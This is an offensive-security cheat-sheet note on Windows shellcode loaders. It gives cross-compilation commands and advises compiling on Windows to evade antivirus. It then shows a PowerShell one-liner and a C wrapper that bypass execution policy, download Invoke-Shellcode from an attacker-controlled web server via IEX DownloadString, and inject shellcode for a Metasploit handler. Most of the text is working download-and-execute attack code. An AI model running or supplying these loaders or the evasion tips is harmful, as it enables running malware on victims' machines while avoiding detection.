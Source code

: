 # Windows - Shellcode and PE loader

### Compilation

The basic `C` / `C++` code snippets in this note can be compiled on Linux using
the cross-compiler `mingw` or on Windows (recommended) using
`Developer Command Prompt` from `Visual Studio`:

```
# mingw.
# 32 bits
i686-w64-mingw32-gcc -lws2_32 -o <BINARY_NAME> <C_PROGRAM>
i686-w64-mingw32-g++ -lws2_32 -o <BINARY_NAME> <C_PROGRAM>
# 64 bits
x86_64-w64-mingw32-gcc -lws2_32 -o <BINARY_NAME> <C_PROGRAM>
x86_64-w64-mingw32-g++ -lws2_32 -o <BINARY_NAME> <C_PROGRAM>

# Visual Studio build tools.
cl <C_PROGRAM | CPP_PROGRAM>
```

Compiling on Windows is recommended for anti-virus evasion, as some products
may categorize `mingw` compilation artefacts.

### Basic shellcode loaders

###### [Windows] PowerShell Invoke-Shellcode

The `PowerShell` `PowerSploit`'s `Invoke-Shellcode` cmdlet can be leveraged to
execute directly in memory the shellcode through `IEX` `DownloadString`.

Depending on the system architecture, `Invoke-Shellcode` will either inject and
run the shellcode specified in the `$Shellcode32` or `$Shellcode64` variables.

```bash
# A web server hosting the modified Invoke-Shellcode script and a metasploit handler with the according payload type must be up and running

powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-Shellcode.ps1'); Invoke-Shellcode -Force;
```

*As a compiled binary.*

The following `C` code can be used to compile a binary that will execute the
`PowerShell`'s `Invoke-Shellcode` cmdlet:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	system("powershell.exe -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http:///<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-Shellcode.ps1'); Invoke-Shellcode -Force;");
	return 0;
}
```
